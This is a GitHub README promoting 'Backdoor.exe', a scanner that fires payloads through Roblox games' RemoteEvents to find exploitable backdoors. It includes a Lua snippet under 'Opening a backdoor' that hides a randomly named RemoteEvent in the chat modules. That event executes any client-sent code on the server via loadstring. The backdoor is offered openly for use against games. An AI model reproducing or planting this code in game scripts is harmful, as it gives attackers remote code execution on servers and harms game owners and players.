 # Backdoor.exe
The best backdoor scanner there is. Our [Discord Server](https://discord.com/invite/6HndYgC).

## Credits
* iK4oS
* Bubba
* Redcarred2
* eeee

## Information
Backdoor.exe is script that scans for open backdoors in games in [Roblox](https://roblox.com/ "Roblox"). It does this by itterating through every Remote Event and firing a script of of them that creates an object. The scripts checks if the object is created, sees what Remote Event caused that to be created and stores it.

### Opening a backdoor
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptServices`.
```lua
local Remote = Instance.new("RemoteEvent", game.Chat:WaitForChild("ClientChatModules").MessageCreatorModules)
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.OnServerEvent:connect(function(player, execute)
	loadstring(execute)()
end)
```

## To-do List
* [ ] Pop Up Logo
* [ ] Settings
* [ ] Account Info
* [ ] Server Lock
* [ ] Remote Search
* [ ] Save Backdoor

![Backdoor.exe](https://i.gyazo.com/76f9aeb40f6218a172f9988e46c9faaa.png)
